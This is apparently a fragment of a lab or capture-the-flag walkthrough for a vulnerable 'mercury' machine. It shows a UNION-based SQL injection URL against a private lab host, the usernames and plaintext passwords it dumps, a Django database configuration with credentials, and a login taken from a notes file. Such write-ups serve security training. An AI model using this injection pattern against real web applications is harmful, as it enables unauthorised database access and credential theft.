 ```
http://192.168.56.108:8080/mercuryfacts/1%20union%20select%20username%20from%20users/
```

('john',), ('laura',), ('sam',), ('webmaster',)
('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',)


```
DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'NAME': 'mercury',
        'USER': 'dbmaster',
        'PASSWORD': '8cSQK0HMJtNxaJwsKwgDwo',
        'HOST': '127.0.0.1',
        'PORT': '3306',
    }
}
```

from notes.txt:
linuxmaster:mercurymeandiameteris4880km